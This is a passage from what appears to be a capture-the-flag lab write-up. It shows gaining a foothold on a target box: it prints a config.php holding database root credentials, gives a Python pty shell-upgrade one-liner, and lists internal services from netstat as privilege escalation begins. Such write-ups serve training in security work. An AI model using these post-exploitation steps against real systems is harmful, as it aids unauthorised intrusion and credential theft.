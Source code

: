 ## Foothold Proof

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upon going back a directory, we find config.php

```
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>
```

#### Shell Upgrade

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

* The first thing that I do is grab the flag.
* After grabbing the user flag, I run netstat -tulnp to see what is running internally

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -   
```
